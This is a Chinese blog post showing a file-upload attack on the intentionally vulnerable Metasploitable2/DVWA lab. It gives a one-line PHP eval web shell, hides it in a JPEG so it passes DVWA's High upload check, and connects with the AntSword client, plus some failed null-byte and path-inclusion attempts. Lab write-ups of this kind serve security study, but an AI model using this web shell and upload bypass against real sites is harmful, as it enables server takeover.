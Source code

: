 ```yaml
---
layout: post
title: 文件上传漏洞的一些攻击方法
subtitle: metasploitable2
author: Kingtous
date: 2020-06-06 23:09:17
header-img: img/post-bg-unix-linux.jpg
catalog: True
tags:
- Linux
- 信息安全
---
```


本文使用`metasploitable2`进行演示

**本文内容仅供交流学习使用，禁止用于不法用途！！！**

#### 一句话木马

```php
<?php @eval($_POST['176']) ?>
```

将代码传入`php-cgi`即可达到我们执行`shell`命令的目的

#### 上传代码

对于安全级别为`High`的`DVMA`来说，其包含的上传图片功能，我们单纯通过修改文件后缀名、`PureSuite`改变文件类型是无法做到的，`还要保证符合文件特征`

![高安全度](http://img.kingtous.cn/img/20200606232337.png)

文件不合规范会提示以下信息：

![无法上传提示](http://img.kingtous.cn/img/20200606232453.png)

**我们通常得进行数据包含！**

在一张正常的图片中，追加一段`php`代码，此处我们使用`GHex`。

![GHex](http://img.kingtous.cn/img/20200606231509.png)

然后改名为`176.php.jpg`即可上传上去。

最后打开中国蚁剑，输入地址：`http://xxx.xxx.xxx.xxx/hackable/uploads/176.php.jpg`，密码：`176`即可拿到webshell，可以访问所有目录文件夹。渗透成功。

![](http://img.kingtous.cn/img/20200606231940.png)

> PS: 在我的`Metasploitable2`中，其他教程中提到的`截%00`、`../fi/?page=file:///var/www/dvwa/hackable/uploads/xxx`好像都没用emm
>
> 截取0尝试（失败）：
>
> ![](http://img.kingtous.cn/img/20200606232230.png)
>
> 访问网址：
>
> `File not found.`